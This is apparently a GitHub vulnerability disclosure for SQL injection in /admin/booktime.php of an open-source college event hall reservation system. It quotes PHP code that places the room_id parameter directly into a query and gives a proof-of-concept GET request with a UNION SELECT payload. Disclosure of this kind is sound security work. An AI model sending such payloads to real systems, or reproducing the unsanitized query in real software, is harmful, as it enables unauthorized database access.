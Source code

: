 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection booktime.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/booktime.php

## Code
```php
    if(isset($_GET['room_id'])){
        $room_id1=$_GET['room_id'];
        $sql1="SELECT * FROM tbl_rooms WHERE room_id='$room_id1'";
        $res1=mysqli_query($conn,$sql1);
        if($res1==True){
            while($row=mysqli_fetch_assoc($res1)){
                $room_name=$row['room_name'];
                $capacity=$row['capacity'];
                $location=$row['location'];
                $description=$row['description'];
                $img_name=$row['img_name'];
                $room_num = $row['room_number'];
            }
        }
    }
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/booktime.php?id=1&room_id='+union+select+1,2,3,4,5,6,version()+%23 HTTP/1.1
Host: [REDACTED]
```

## Screenshot


